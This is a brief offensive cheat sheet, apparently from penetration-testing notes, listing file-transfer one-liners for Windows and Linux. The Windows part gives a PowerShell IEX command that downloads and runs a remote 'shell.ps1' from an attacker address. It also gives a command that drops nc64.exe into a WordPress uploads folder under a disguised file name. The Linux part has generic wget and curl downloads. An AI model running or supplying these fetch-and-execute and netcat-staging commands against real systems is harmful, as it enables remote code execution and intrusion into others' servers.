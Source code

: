 # window

``` powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"  ```
``` powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.111/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\uploads\temo.exe'); ```

# Linux

``` wget http://filename -O finame ```

``` curl http://www.abc.com/123/def/ghi/jkl.mno -o filename ```

